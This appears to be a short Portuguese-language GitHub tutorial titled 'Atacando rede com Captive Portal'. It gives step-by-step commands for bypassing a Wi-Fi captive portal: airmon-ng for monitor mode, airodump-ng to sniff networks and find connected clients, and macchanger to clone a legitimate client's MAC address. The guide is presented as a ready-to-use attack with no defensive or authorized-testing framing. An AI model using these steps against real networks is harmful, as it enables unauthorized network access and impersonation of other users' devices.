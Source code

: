 ## Atacando rede com Captive Portal

Esse ataque é bem simples, para bypassar uma autenticação por Captive Portal geralmente a clonagem de mac address funciona...

#### 1° passo:

Colocar a placa em monitor mode

 ``` airmon-ng start <interface> ```

#### 2° passo:

Sniffar as redes ao redor e identificar o alvo

 ``` airodump-ng <interface> ```


#### 3° passo:

Focar o sniffing na rede alvo...(não é necessario capturar o trafego)

 ``` airodump-ng --essid NAME --channel CHANNEL <interface> -w CAPNAME ```

#### 4° passo:

Ver quais clientes estão conectados na rede com captive portal para podermos clonar algum mac.

Após de encontrar algum cliente conectado, salve o mac address desse cliente. Depois disso efetue a troca de mac address com a tool macchanger. 

 1 - ``` ifconfig <interface> down ```
 2 - ``` macchanger -m MACADDRCLONE <interface> ```
 3 - ``` ifconfig <interface> up ```

#### 5° passo:

Quando ja estiver com o mac address clonado verifique se você pode se conectar na rede e tem acesso a internet, para ter certeza de que a controladora da rede autorizou sua conexão
